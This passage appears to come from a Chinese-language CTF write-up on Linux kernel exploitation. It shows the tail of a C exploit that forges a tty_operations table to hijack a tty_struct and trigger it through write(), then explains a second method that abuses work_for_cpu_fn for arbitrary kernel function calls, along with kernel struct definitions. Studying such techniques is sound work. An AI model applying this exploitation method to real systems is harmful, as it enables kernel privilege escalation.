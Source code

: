 ```c
    // 将fake_tty的tty_operations函数指针表设置为我们伪造的函数指针表
    fake_tty[3] = fake_op;

    // 重新写入tty_struct结构体
    write(fd2, fake_tty, 0x40);

    // 我们已经劫持了tty_struct的函数指针，调用tty_struct函数指针中的write来触发整个流程
    write(fd3, func, 0x8); 
    return 0;
}
```

### 解题思路2：tty_struct + work_for_cpu_fn

上一种解题思路中，我们劫持了`tty_struct`，随后进行了两次栈迁移来打`rop`，而且需要绕过`smep`等保护措施。这样做比较麻烦，因此我们来看一种简单一点的方法，即利用`work_for_cpu_fn`函数。

该函数在开启了多核支持的内核中都有这个函数，其定义如下：

```c
struct work_for_cpu {
    struct work_struct work;
    long (*fn)(void *);
    void *arg;
    long ret;
};
 
static void work_for_cpu_fn(struct work_struct *work)
{
    struct work_for_cpu *wfc = container_of(work, struct work_for_cpu, work);
 
    wfc->ret = wfc->fn(wfc->arg);
}
```

因此该函数可以简单理解为如下形式：

```c
static void work_for_cpu_fn(size_t * args)
{
    args[6] = ((size_t (*) (size_t)) (args[4](args[5]));
}
```

查看函数表：

```c
struct tty_operations {
    struct tty_struct * (*lookup)(struct tty_driver *driver, struct file *filp, int idx);
    int  (*install)(struct tty_driver *driver, struct tty_struct *tty);
    void (*remove)(struct tty_driver *driver, struct tty_struct *tty);
    int  (*open)(struct tty_struct * tty, struct file * filp);
    void (*close)(struct tty_struct * tty, struct file * filp);
    void (*shutdown)(struct tty_struct *tty);
    void (*cleanup)(struct tty_struct *tty);
    int  (*write)(struct tty_struct * tty,
              const unsigned char *buf, int count);
    int  (*put_char)(struct tty_struct *tty, unsigned char ch);
    void (*flush_chars)(struct tty_struct *tty);
    unsigned int (*write_room)(struct tty_struct *tty);
    unsigned int (*chars_in_buffer)(struct tty_struct *tty);
    int  (*ioctl)(struct tty_struct *tty,
            unsigned int cmd, unsigned long arg);
    long (*compat_ioctl)(struct tty_struct *tty,
                 unsigned int cmd, unsigned long arg);
......
```